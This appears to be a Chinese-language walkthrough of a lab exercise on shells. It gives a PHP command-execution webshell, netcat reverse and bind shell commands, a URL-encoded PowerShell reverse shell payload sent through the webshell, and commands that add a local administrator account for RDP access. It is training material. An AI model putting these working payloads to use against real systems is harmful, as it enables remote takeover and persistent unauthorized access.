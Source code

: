 ### webshell

1. 尝试将 Webshel​​l 上传到Linux机器，然后使用以下命令：`nc <LOCAL-IP> <PORT> -e /bin/bash`将反向 shell 发送回您自己计算机上等待的侦听器。

  - `nc -nlvp 1234`
  - 创建php文件 webshell.php
      ```php 
      <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd']);
        }
        ?>
      ```
   - 打开被攻击的网址`http://10.10.57.248/`,上传webshell.php
   - 构建url `http://10.10.57.248/uploads/webshell.php?cmd=nc 10.10.21.196 1234 -e /bin/bash`,后面的参数ip为你本地的ip端口为你nc监听的端口(简单说这一步就是访问你刚才上传的文件并传入命令执行)。
   - 然后查看nc 看到连接成功

2. 导航到/usr/share/webshells/php/php-reverse-shell.phpKali 并更改 IP 和端口，以将您的 tun0 IP 与自定义端口相匹配。设置 netcat 监听器，然后上传并激活 shell。
  - 连接ssh `ssh shell@10.10.149.6`
  - 执行 `mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
  - 执行 `nc 10.10.149.6 4444` 此处的ip是目标机的ip
  - 成功  

3. 在 Windows 目标上上传 Webshel​​l 并尝试使用 Powershell 获取反向 shell。
  - `nc -nlvp 1234`
  - 创建php文件 webshell.php
      ```php 
      <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd']);
        }
        ?>
      ```
   - 打开被攻击的网址`http://10.10.57.248/`,上传webshell.php
   - 构建url `http://10.10.57.248/uploads/webshell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.194.117%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`,后面的参数ip为你本地的ip端口为你nc监听的端口(简单说这一步就是访问你刚才上传的文件并传入命令执行)。
   - 然后查看nc 看到连接成功

4. 网络服务器正在以系统权限运行。创建一个新用户并将其添加到“管理员”组，然后通过 RDP 或 WinRM 登录。
  - 使用刚才获取的shell
  - `net user test test123 /add`               #添加新用户
    `net localgroup administrators test /add`  #添加用户到管理员组  
  - 使用新用户登录 `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.91.116 /u:test /p:'test123'`

5. 要求：尝试使用 socat 和 netcat 在 Windows 目标上获得反向和绑定 shell。